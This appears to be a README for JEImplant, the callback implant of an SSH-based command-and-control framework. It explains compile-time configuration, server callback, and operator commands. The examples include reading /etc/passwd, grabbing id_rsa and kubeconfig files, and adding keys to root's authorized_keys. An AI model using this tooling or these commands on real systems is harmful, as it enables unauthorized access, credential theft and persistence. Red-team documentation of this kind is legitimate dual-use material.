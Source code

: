 JEImplant
=========
JEImplant is the implant side of JEC2.  At the moment it's a single binary
which calls back via SSH or TLS-wrapped SSH to JEServer and itself acts as an
SSH server for operator connections via JEServer.

Connecting to JEImplant is a simple matter of connecting to JEServer and
proxying through with OpenSSH's `-J` or `ProxyJump` to the appropriate
[implant name](../jeserver.go#list).  This usually looks something like
`ssh -J jeserver m3`.  It's handy to make an 
[SSH config section](./README.md#ssh-config) for the `latest` implant.

There's two ways to interact with JEImplant: single commands or an interactive
shell.

### Single commands
Like so:
```sh
ssh jeimplant uname -a
```

This is particularly useful for [file transfers](#file-read/write).

### Interactive shell
Slightly easier is an interactive shell.  This is a bit like a slightly
neurotic SSH session.  Like so:
```sh
$ ssh jeimplant
[/home/h4x] # We're connected
[/home/h4x] id
uid=1000(h4x) gid=1000(h4x) groups=1000(h4x)
[/home/h4x]
```

Compilation
-----------
Implant compilation is more or less like compiling anything else written in Go,
except that the implant's [private key](#private-key) has to be set at
compile-time, and a couple of other parameters should be set at compile-time.
Eventually, there may be support for compiling to a shared library or something
other than a normal binary.

### Compile-time config
The following variables may be set at compile-time using
`-ldflags "-X 'main.Foo=bar' -X 'main.Tridge=quux'"`.  They set defaults for
execution but, with the exception of the private key, may be changed at runtime
using command-line flags.

Variable        | Default               | Example                                              | Description
----------------|-----------------------|------------------------------------------------------|------------
main.ServerAddr | _none_                | `ssh://example.com:10022`                            | Server [Address](#server-addresses)
main.ServerFP   | _none_                | `SHA256:LfmGUbswbhDOeLcGfXaz59KHNjVK18aA8RmY4jnT7vI` | Server hostkey [fingerprint](#server-fingerprint)
main.PrivKey    | _none_                | _too long_                                           | Implant [private key](#private-key)
main.SSHVersion | `SSH-2.0-OpenSSH_8.6` | `SSH-2.0-OpenSSH_8.6`                                | SSH Client Version

It's probably easier to use [`jegenimplant`](./jegenimplant.md).

### Server Addresses
Server addresses must be specified as a URL in one of the following forms:
- `ssh://host:port` for SSH over TCP
- `tls://host:port` for SSH over TLS over TCP
The port is required.

### Server Fingerprint
The client does its part to prevent MitM by checking the server's fingerprint.
It can be retrieved from the server's key with 
```sh
ssh-keygen -lf ./serverskey | cut -f 2 -d ' '
```
or from the server itself with
```sh
ssh-keyscan -p 10022 127.0.0.1 | ssh-keygen -lf - | tail -n 1 | awk '{print $2}'
```

### Private Key
The implant's private key must be baked-in at compile time by setting
`main.PrivKey`.  The key may either be in PEM format or base64'd PEM format
(i.e. `openssl base64 -A < id_ed25519`).  This typically takes the form of 
```sh
... -X 'main.PrivKey=$(openssl base64 -A < ~/jec2/id_25519_implant)' ...
```

Command-Line Flags
------------------
For an up-to-date list of JEImplant's command-line flags, run JEImplant with
`-h`.  The current flags are
```
  -address address
    	C2 address (default "ssh://example.com:10022")
  -debug
    	Enable debug logging
  -fingerprint fingerprint
    	C2 hostkey SHA256 fingerprint (default "SHA256:LfmGUbswbhDOeLcGfXaz59KHNjVK18aA8RmY4jnT7vI")
  -version banner
    	SSH client version banner (default "SSH-2.0-OpenSSH_8.6")
```

Commands
--------
JEImplant has very few built-ins; most interaction is done via shell commands.
Commands with their own section are linkied.
[iTerm2](https://iterm2.com)-specific commands are noted as such.

When commands need to be [split](https://github.com/magisterquis/simpleshsplit)
into words, splitting is done on unescaped spaces (like `\x20`, not all
whitespace).  This makes it slightly easier to do weird quoting things.

Anything not one of the below commands sent to the implant will be sent to the
standard input of a shell, the same effect as running everything with `s` (and
as a result of the author being sick of typing `s` early on in development).
This means that each command runs in its own shell process, for better or for
worse.  Use `r` is this is a problem.

Command | Description                              | Example
--------|------------------------------------------|--------
`#`     | [Log](../jeserver.md#log) a comment      | `# Crashed sshd, whoops`
`?`     | This help                                | `?`
`c`     | Copy a file to the pasteboard (iTerm2)   | `c ./id_rsa`
`cd`    | Change directory                         | `cd /etc`
`d`     | Download a file (iTerm2)                 | `d ./kubeconfig`
`f`     | [Read/write a file](#file-read/write)    | `f < ./foo` or `f > ./foo` or `f >> ./foo`
`h`     | This help                                | `h`
`q`     | Disconnect from the implant              | `q`
`r`     | Run a new process and get its output     | `r ip bar tridge` <- Doesn't spawn a shell
`s`     | [Execute (a command in) a shell](#shell) | `s` or `s ./foo bar tridge`
`u`     | Upload a file (iTerm2)                   | `u`

### File Read/Write
As an alternative to `c`, `u`, and `d`, which use
[iTerm2 escape codes)(https://iterm2.com/documentation-escape-codes.html),
files can be transferred using `f` using one of the three shell-like operators
below.  The benefit of this over `cat` and similar is it doesn't create a
separate process.  The downside is it could be a bit faster.

Operator             | Description
---------------------|------------
`>`                  | Creates/truncates a file
`>>`                 | Creates/appends to a file
`<` (or no operator) | Reads from a file

With `>` and `>>`, `f` expects base64'd data which can either be copy/pasted
to the terminal or sent to ssh's stdin.

This is clearer with examples.

Example                                          | Description
-------------------------------------------------|------------
`f < /etc/passwd`                                | Read the contents of `/etc/passwd` 
`openssl base64 <./k | ssh jeimplant f > /tmp/k` | Upload `k`, not quickly
`f >> /root/.ssh/authorized_keys`                | Add a line to root's `authorized_keys`, pasting in the output of `openssl base64 </.ssh/id_rsa` and hitting enter a couple of times.

### Shell
By default, any command not listed above is sent to a shell.  For example, if
JEImplant gets `ps awwwfux; uname -a; id`, it does something like
`echo 'ps awwwfux; uname -a; id' | /bin/sh`, minus the `echo` process and the
invisible shell running `echo` and `/bin/sh`.  If spawning a shell per command
is a problem, use `r` to fork and exec without one.

The `s` command with no arguments spawns `/bin/sh` with no arguments and
hooks up the C2 session's to its stdio.  This is useful for shell-in-shell
gymnastics (`docker exec`->`chroot`?) but leaves an extra process running.  Kill the
shell and hit enter a couple of times to get back to normal.

